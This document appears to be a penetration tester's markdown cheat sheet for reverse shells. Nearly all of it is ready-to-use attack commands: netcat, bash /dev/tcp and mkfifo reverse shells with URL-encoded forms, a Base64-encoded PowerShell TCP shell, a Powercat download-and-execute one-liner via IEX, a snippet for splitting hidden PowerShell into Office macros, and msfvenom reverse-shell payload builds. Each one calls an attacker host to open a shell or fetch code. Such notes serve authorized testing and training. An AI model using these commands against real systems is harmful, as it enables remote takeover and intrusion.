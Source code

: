 # Reverse shells

## References

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://www.revshells.com/
- Hacktricks: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells

## Netcat

Listener:
```
nc -nvlp $AttackerPort
```
Reverse shell:
```
nc -nv $AttackerIp $AttackerPort -e /bin/bash
```

## URL encoding

- manual: https://en.wikipedia.org/wiki/Percent-encoding
- https://www.urlencoder.io/
- with curl: `curl http://vulnwebsite/backdoor.php --data-urlencode "cmd=ls -l"`

## Powershell

```
$ pwsh
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("attackerIp",attackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)

cmd> powershell -enc xyz
```
API: https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.socket?view=net-7.0

## Bash 

```
bash -c "bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIP $AttackePort > /tmp/f
rm%20%2Ftmp%2Ff%20%3B%20mkfifo%20%2Ftmp%2Ff%20%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20$AttackerIP%20$AttackePort%20%3E%20%2Ftmp%2Ff
```
Other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Powercat - Office

Powercat script: https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
```
IEX(New-Object System.Net.WebClient).DownloadString('http://IpAtt/powercat.ps1');powercat -c IpAtt -p PortAtt -e powershell

str = "powershell.exe -nop -w hidden -e xxxx..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')

cd /usr/share/powershell-empire/empire/server/data/module_source/management
python3 -m http.server 80
```
or direct:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp:$AttackerHttpPort/powercat.ps1');powercat -c $AttackerIp -p $AttackerNcPort -e powershell"
```
API: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-7.0

## Mfsvenom

```
msfvenom -h
msfvenom --list payloads
msfvenom --list platforms
msfvenom --list formats
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f elf > shell.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f exe > windows_reverse.exe
Invoke-WebRequest -Uri http://IpAttacker/windows_reverse.exe -OutFile windows_reverse.exe
```
